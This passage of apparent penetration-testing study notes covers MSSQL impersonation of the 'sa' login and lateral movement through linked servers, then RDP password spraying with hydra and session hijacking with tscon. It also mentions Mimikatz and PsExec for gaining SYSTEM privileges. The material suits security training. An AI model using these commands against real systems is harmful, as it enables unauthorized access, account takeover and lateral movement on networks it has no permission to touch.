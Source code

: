 #### Impersonating the SA User
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

### Communicating with Other Databases with MSSQL
*MSSQL* has a config option  called `linked servers`.
If we gain access to a server which has linked servers we might be able to move laterally.

```cmd-session
1> SELECT srvname, isremote FROM sysservers
2> GO
```

From the isremote field we can identify if we can connect to the server.
```cmd-session
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```


## Attacking RDP
By default *RDP* `Remote Desktop Protocol` uses `TCP/3389`

### Misconfigurations 
RDP Takes authentication to access so one misconfiguration could be password guessing.
While not common its possible to find a RDP process with a default/no password.

### Password Spraying
To `Password Spray` *RDP* we can use `hydra`
```shell-session
hydra -L usernames.txt -p 'password' 192.168.2.143 rdp
```
We can then log into RDP using xfreerdp

### Protocol Specific Attacks
If we successfully gain access to a machine and have an account with local admin privileges. If a user is connected to RDP to our compromised machine we can hijack the user's remote desktop session.

In an AD environment this could lead to us taking over the Domain Admin account or furthering access to our domain.

#### RDP Session Hijacking
To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use Microsoft `tscon.exe` that enables users to connect to another desktop session.  

We specify the `Session ID` gained from `query user` with our `Session Name`
```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
##### Privilege Escalation
If we have `Local Admin` privileges, we can use several methods to obtain `SYSTEM`.
We can use `Mimikatz` and `PsExec` to create a windows service that by default will run as `Local System` and will execute any binary on `SYSTEM` priveleges.
